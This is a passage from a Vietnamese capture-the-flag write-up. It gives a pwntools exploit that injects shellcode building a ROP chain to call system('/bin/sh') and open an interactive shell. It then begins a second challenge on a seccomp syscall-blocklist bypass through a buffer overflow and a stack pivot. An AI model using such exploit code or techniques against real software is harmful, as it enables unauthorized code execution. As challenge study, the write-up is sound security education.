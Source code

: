 ```python
shellcode = asm(f"""
    mov r11, 0x404080
    mov r11, [r11]
    sub r11, {read_offset}
    mov r15, r11
    mov rax, 0
    lea rsi, [rdi+4]
    mov r11, 1000
    mov [rdi], r11
    lea rbx, [rsi+rax*8]
    mov r13, 0x4141414141414141
    mov [rbx], r13
    add rax, 1
    cmp rax, 32
    jle $-25
    lea r11, [r15+{pop_rdi+1}]
    mov [rsi+33*8], r11
    lea r11, [r15+{pop_rdi}]
    mov [rsi+34*8], r11
    lea r11, [r15+{system}]
    mov [rsi+36*8], r11
    lea r11, [r15+{sh}]
    mov [rsi+35*8], r11
    ret
""", arch = 'amd64', os = 'linux')


pause()
io.sendlineafter(b">", b"1")
io.sendline(str(len(shellcode)).encode())
io.send(shellcode)

io.sendlineafter(b">", b"2")
io.interactive()
```

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/c874782d-499b-4c2a-b9a4-54bee824e3c7)

## blacklist

Đây là một bài syscall bypass, chặn các syscall `execve`, `execveat`, `write`, `pwritev`, `pwritev2`, `pwrite64`, `mprotect`, `kill`, `tkill`. Ta nhanh chóng nhận ra ta sẽ có đủ 3 syscall (`open`, `read`, `writev`) để read flag, giờ việc còn lại sẽ là tìm cơ hội để dùng 3 syscall này.

Bài này thì ta sẽ có một bug buffer overflow 48-32=16 byte overflow, vừa đủ để override return address và control được RIP, tuy nhiên có vài vấn đề:
- Không có memory leak
- Binary không có syscall instruction

Binary được compile với no pie, do đó việc đầu tiên ta nghĩ đến hẳn sẽ là tìm cách để stack pivot lên một vùng memory RW của binary, thường là `.bss`. Một cách mà ta có thể dùng là gadget `leave, ret`
